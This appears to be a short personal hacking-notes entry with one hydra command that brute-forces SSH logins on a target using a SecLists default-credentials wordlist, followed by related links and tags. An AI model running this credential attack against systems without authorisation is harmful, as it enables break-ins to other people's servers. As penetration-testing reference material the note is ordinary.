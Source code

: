 # brute force default credentials ssh
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt -e nsr -t 1 $IP ssh
```

# Related

- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:

    #assorted #command #hacking #hydra
